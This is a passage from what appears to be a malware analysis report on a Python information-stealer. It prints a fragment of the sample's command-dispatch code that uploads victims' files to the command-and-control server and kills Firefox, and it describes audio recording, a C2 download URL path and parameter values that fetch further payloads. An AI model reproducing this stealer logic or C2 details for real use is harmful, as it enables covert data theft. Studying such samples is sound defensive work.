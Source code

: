 


12345678910111213141516171819

if Im_extintion == 'Mulan':    path = Process_list(MyFolderName)    status = Upload_File('else', path, FranDrescher, Im_extin)    if status:        status = Delete_Request(Im_extin)    if Im_extintion == 'Mulan_Fire':        K_process('firefox.exe')        Compress_File_Rar_WithoutDel2()        status = Delete_Request(Im_extin)    if Im_extintion == 'Vanellope':        path = Get_ImgType(MyFolderName)        status = Upload_File('else', path, FranDrescher, Im_extin)        if status:            status = Delete_Request(Im_extin)        if Im_extintion == 'Calhoun':            path = Get_VedioType(MyFolderName)            status = Upload_File('else', path, FranDrescher, Im_extin)            if status:                status = Delete_Request(Im_extin)





This is another signal of incomplete implementation and possible active development.
A summary of the commands that are reachable by code execution has been provided in Table 2.
Information-Stealing and Control Capabilities
This malware sample has a rich set of information-stealing and control capabilities, whether they’re reachable in the current C2 implementation or not. The following sections will detail some of the most relevant capabilities only, in order to provide visibility into how this malware family is implemented.
Audio Recording
Audio recording is achieved with the usage of the pyaudio and wave Python libraries. Data is stored under the “DevNameSound” folder.
Figure 22. Audio recording implementation.
The recordings are stored in the corresponding folder, and the running threads as well as the operator commands will allow for the retrieval of the information captured.
File Download Capabilities
The ability to download files from the C2 is implemented via a POST request to the following URL path:
/zoailloaze/sfuxmiibif/qprbudls
As part of the POST request, a parameter named “beau” will be used to specify the type of file download. Based on its value, it can download specific payloads as well as given URLs. The code looks as follows:
Figure 23. Download code example.
 



Value of “beau”
Action


‘1’
Download a legit version or rar.exe.


‘2’
Download MetroIntelGenericUIFram.exe.


‘3’
Download SynLocSynMomentum.exe.


A given URL
Download from any specified URL.
